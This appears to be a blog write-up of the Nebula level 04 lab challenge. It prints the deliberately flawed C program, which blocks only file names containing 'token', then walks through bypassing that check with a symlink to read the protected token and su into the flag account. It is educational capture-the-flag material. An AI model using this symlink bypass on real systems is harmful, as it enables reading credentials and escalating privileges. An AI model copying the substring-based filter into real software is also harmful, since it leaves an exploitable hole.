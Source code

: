 ```yaml
---
layout: default
title: "Nebula04"
tags: Nebula
description: "Bypassing the restriction to read the token with symlink"
---
```



## Level 04

> This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it. To do this level, log in as the `level04` account with the password `level04`. Files for this level can be found in `/home/flag04`.

## Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

## Getting the flag

According to the task, we have to read the token, but if you will pay attention to the code you will notice that you can't read files with the `token` in the name. We don't have permissions to rename the token itself, but can try to create a symbolic link to the other file:

```
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/l33t
```
Let's check the property of the new file in the `/tmp` folder:

```
lrwxrwxrwx 1 level04 level04  18 2021-06-15 01:07 l33t -> /home/flag04/token
```
So our new file is now linked to the token. Let's try to read it:

```
level04@nebula:/home/flag04$ ./flag04 /tmp/l33t
06508b5e-8909-4f38-b630-fdb148a848a2
```
To get the flag itself we need `su` to the `flag04`. The token that we just read will be the password to this account. 

```
level04@nebula:/home/flag04$ su flag04
Password: 
sh-4.2$ id
uid=995(flag04) gid=995(flag04) groups=995(flag04)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```